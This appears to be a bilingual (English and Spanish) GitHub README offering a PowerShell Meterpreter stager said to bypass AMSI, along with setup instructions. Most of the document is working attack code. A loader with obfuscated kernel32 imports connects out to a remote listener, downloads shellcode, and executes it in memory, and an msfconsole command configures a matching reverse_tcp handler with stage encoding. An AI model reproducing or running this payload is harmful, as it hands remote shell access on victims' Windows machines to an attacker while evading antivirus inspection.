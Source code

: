 # Meterpreter-Powershell

This repo contains a simple meterpreter session in powershell bypassing amsi

1. [English](#English "Goto English")
2. [Code Meterpreter](#Code Meterpreter "Goto Code Meterpreter")
3. [Use](#Use "Goto Use")
4. [Spanish](#Spanish "Goto Spanish")
5. [Codigo Meterpreter](#Codigo Meterpreter "Goto Codigo Meterpreter")
6. [Uso](#Uso "Goto Uso")
7. [Video Poc](#Video Poc "Goto Video Poc")

## English 
# Code Meterpreter #

[!] This code meterpreter only work with Powershell 32 bits
Path Powershell 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe
Replace "192.168.56.1" and 443, for your data

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Use #
Start msfconsole with next command, replace "YourIp" and "YourPort" for your data
```
msfconsole -x "set lhost YourIp; set lport YourPort; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

## Spanish 
# Codigo Meterpreter #

[!] Este codigo de Meterpreter solo funciona en la PowerShell de 32 Bits 
Ruta Powershell de 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe
Reemplaza "192.168.56.1 y 443, por tus datos

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Uso #
Inicia msfconsole con el siguiente comando, reemplaza "TuIp" y "TuPuerto" por tus datos respectivos
```
msfconsole -x "set lhost TuIp; set lport TuPuerto; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

# Video Poc (Uso/Use) #



